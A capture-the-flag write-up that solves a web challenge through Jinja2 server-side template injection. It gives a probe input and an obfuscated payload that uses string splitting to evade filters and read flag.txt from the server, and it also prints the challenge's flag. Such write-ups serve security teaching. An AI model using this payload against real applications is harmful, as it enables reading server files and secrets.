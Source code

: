 <img width="928" height="522" alt="image" src="https://github.com/user-attachments/assets/b23931e3-d7e2-443a-8a74-e6d15b5d7902" />

# Challenge 

We are presented with a web application that reflects our input back into the page. This hints at a possible **Server-Side Template Injection (SSTI)** vulnerability.

<img width="797" height="420" alt="image" src="https://github.com/user-attachments/assets/c4caf974-6189-4f90-89ad-5d760c618e53" />

## Solution

1. **Testing for SSTI**
   - Submitting `{{7*7}}` returns `49`.
   - This confirms template injection is possible (likely Jinja2).
  
<img width="940" height="511" alt="image" src="https://github.com/user-attachments/assets/169b58e4-73a3-4c0d-931b-57a23013e160" />

  
2. **Getting the Flag**
   - Instead of overcomplicating things, I simply guessed that the flag would be in `flag.txt`.  
   - Using SSTI to read it:
     ```jinja2
     {{ cycler.__init__.__globals__['__bui'~'ltins__']['o'~'pen']('fl'~'ag'~'.t'~'xt')['re'~'ad']() }}
     ```
   - This successfully revealed the flag.
  
  <img width="940" height="618" alt="image" src="https://github.com/user-attachments/assets/3cc0edc8-0b26-430b-81a2-c7ebbc510eba" />

  
## Flag 

```
n3xt{sst1_m4k3_4_p3rf3ct_ch4ll3ng3}
```
